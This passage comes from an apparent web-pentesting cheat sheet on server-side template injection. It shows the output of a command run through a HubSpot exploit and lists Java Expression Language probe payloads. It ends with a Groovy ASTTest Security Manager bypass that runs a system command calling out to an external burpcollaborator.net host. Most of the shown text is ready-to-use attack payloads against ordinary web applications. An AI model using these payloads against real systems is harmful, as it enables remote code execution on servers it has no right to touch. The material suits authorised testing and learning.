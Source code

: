 //Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

**More information**

-   ​[https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)​
    

## 

Expression Language - EL (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#expression-language-el-java)

-   `${"aaaa"}` - "aaaa"
    

-   `${99999+1}` - 100000.
    

-   `#{7*7}` - 49
    

-   `${{7*7}}` - 49
    

-   `${{request}}, ${{session}}, {{faceContext}}`
    

EL provides an important mechanism for enabling the presentation layer (web pages) to communicate with the application logic (managed beans). The EL is used by **several JavaEE technologies**, such as JavaServer Faces technology, JavaServer Pages (JSP) technology, and Contexts and Dependency Injection for Java EE (CDI). Check the following page to learn more about the **exploitation of EL interpreters**:

[

EL - Expression Language





](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

## 

Groovy (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#groovy-java)

This Security Manager bypass was taken from this [**writeup**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).

//Basic Payload

import groovy.*;

@groovy.transform.ASTTest(value={

cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "

assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))

})
